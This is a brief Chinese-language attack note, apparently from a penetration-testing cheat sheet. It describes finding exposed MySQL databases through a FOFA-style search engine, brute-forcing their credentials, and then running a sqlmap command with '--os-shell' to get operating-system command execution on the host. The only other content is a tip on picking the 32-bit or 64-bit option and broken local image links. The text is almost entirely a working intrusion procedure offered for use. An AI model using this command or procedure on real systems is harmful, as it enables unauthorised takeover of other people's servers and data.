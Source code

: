 用途：在fofa类搜索到目标数据库且爆破用户名密码，可以直接用sqlmap提权

sqlmap -d mysql://root:root@172.16.12.2:3306/mysql --os-shell

![image-20210824182034482](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824182034482.png)

按照目标sql的位数选择

32位选择 32位   64位选择32和64的都可以

![image-20210824182219972](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824182219972.png)